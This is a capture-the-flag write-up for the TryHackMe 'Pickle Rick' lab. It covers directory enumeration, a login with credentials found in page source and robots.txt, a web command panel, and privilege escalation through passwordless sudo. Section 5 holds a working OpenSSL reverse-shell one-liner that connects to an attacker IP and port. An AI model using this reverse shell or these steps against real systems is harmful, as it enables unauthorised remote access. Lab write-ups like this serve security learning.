 # Pickle Rick

---

Machine by [ar33zy](https://tryhackme.com/p/ar33zy)

[Tryhackme link](https://tryhackme.com/room/picklerick)

---

## Table of Content

1. [NMAP scan](https://github.com/R3TR0R0C4/CTFs/blob/main/TryHackMe/PickleRick/picklerick.md#1-nmap-scan)
2. [Website](https://github.com/R3TR0R0C4/CTFs/blob/main/TryHackMe/PickleRick/picklerick.md#2-website)
3. [gobuster & dirbuster](https://github.com/R3TR0R0C4/CTFs/blob/main/TryHackMe/PickleRick/picklerick.md#3-gobuster--dirbuster)
4. [Web login](https://github.com/R3TR0R0C4/CTFs/blob/main/TryHackMe/PickleRick/picklerick.md#4-web-login)
5. [Reverse Shell access](https://github.com/R3TR0R0C4/CTFs/blob/main/TryHackMe/PickleRick/picklerick.md#5-reverse-shell-access)
6. [First Flag](https://github.com/R3TR0R0C4/CTFs/blob/main/TryHackMe/PickleRick/picklerick.md#6-first-flag)
7. [Second Flag](https://github.com/R3TR0R0C4/CTFs/blob/main/TryHackMe/PickleRick/picklerick.md#7-second-flag)
8. [Third Flag](https://github.com/R3TR0R0C4/CTFs/blob/main/TryHackMe/PickleRick/picklerick.md#8-third-flag)


---

Tools Used:

- Kali Linux
- NMAP
- gobuster
- dirbuster
- ncat


---

### 1. Nmap Scan

We'll scan the IP to see what services are running, first, let's visit the website.

![](img/picklerick01.png)

<br>

### 2. Website 

After visiting the website, we can't see anything that gives out any clues or ingridient.

After visiting the source code we can see the following, a username, we may be able to use a dictionary attack on ssh:

![](img/picklerick02.png)

After a little test with hydra, we can see that the server doesn't allow password access (only with public keys):

![](img/picklerick03.png)

<br>

### 3. gobuster & dirbuster

I've tried to use gobuster to list the available directories and some files on the webserver, i could find a assets folder with a bunch of pics, i ran binwalk on all of them but none resulted in any clues.
 
![](img/picklerick04.png)

The `robots.txt` file has a wierd text, i'll save it for later maybe: 

![](img/picklerick05.png)

After no successful clues i turned to dirbuster to look for php files, and found a `login.php`:

![](img/picklerick06.png)

<br>

### 4. Web login

We can see a login portal, for wich i'll use the user `R1ckRul3s` and password `Wubbalubbadubdub` that we found previously:

![](img/picklerick07.png)

And after logging in we can see the next command prompt, we are executing commands as `www-data` so we'll have limited access (all the other links on the navbar seem to lead to a dead end for the moment, so i'll ignore them):

![](img/picklerick08.png)

<br>

### 5. Reverse Shell access

Then i'll attempt to use a reverse shell that exploits openSSL from [this](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#openssl) website.
   
`mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.8.32.220:4242 > /tmp/s; rm /tmp/s`

![](img/picklerick09.png)

As we can see we've got access to the machine:

![](img/picklerick10.png)

<br>

### 6. First Flag

We can see that there is a .txt file, if we cat that we can see the first flag:

![](img/picklerick11.png)

<br>

### 7. Second Flag

After entering the `/home/` folder we see a couple of user's homes, ubuntu doesn't contain any visible file, but rick does, and there we can find the second flag:

![](img/picklerick12.png)

<br>

### 8. Third Flag

Since we have a reverse shell access, let's try `sudo -l` to see if we have permissions on something:

![](img/picklerick13.png)

As we can see, we've got permissions on all commands without password.

So let's use sudo to see the contents of user root home folder, and we can see the third flag:

![](img/picklerick14.png)